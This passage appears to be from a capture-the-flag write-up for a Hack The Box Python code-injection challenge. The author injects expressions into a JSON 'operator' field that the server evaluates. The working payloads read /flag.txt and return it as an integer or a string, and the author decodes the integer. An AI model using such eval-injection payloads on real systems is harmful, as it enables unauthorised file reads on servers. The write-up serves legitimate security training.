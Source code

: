 ```json
{
  "current_health": "0",
  "attack_power": "0",
  "operator": "+ int.from_bytes(open('/flag.txt', 'rb').read(), byteorder='little') + "
}
```

```py
result = 0 + int.from_bytes(open('/flag.txt', 'rb').read(), byteorder='little') +  0
```

I sent the request and got a long number in the response.

```json
{
  "message": 201516498940107249491797512894218632304837388393313697999770696
}
```

That was the flag and all I had to do was to convert it back using `int.to_bytes()`.

```
>>> a = 201516498940107249491797512894218632304837388393313697999770696
>>> a.to_bytes(30, "little")
b'HTB{f4k3_fl4g_f0r_t3st1ng}\x00\x00\x00\x00'
```

On the remote instance (note how I had to set a larger length):

```
>>> a.to_bytes(30, "little")
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
OverflowError: int too big to convert
>>> a = 56597642921265698821522452374355843011427354479177954040810850297494445904968
>>> a.to_bytes(35, "little")
b'HTB{c0d3_1nj3ct10ns_4r3_Gr3at!!}\x00\x00\x00'
```

### Another solution

Multiplying integers and strings is also a thing in Python. I completely forgot about that. Enjoy this smarter solution. 😎

```json
{
  "current_health": "1",
  "attack_power": "1",
  "operator": "* open('/flag.txt').read() *"
}
```

```json
{
  "message": "HTB{c0d3_1nj3ct10ns_4r3_Gr3at!!}"
}
```
